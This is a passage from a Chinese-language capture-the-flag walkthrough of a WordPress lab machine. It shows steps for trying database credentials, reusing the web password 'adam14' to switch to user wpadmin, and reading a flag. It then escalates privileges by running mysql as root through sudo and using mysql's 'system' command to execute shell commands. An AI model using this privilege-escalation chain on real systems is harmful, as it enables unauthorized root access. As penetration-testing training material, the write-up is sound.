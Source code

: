 ![image-20211117154640760](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117154640760.png)

失败

### 7.尝试登录数据库账号

```
mysql -u admin -p Wp_Admin#123 -D wordpress
```

![image-20211117154804076](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117154804076.png)失败

### 8.尝试是否复用了Web页面的密码

```
su wpadmin
```

尝试输入密码adam14

![image-20211117154929085](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117154929085.png)

```
cat local.txt
```

![image-20211117155043263](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117155043263.png)

flag1:153495edec1b606c24947b1335998bd9

### 9.二次提权

```
sudo -l
```

提示可以执行的命令：

![image-20211117155135536](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117155135536.png)

```
sudo /usr/bin/mysql -u root -D wordpress -p    #输入密码adam14
```

![image-20211117155339940](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117155339940.png)

成功登录数据库

### 10.利用mysql数据库特性

当前启动的数据库进程是具有root权限的，结合mysql数据库 system 命令 的功能

```
system id 
```

![image-20211117155440756](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117155440756.png)
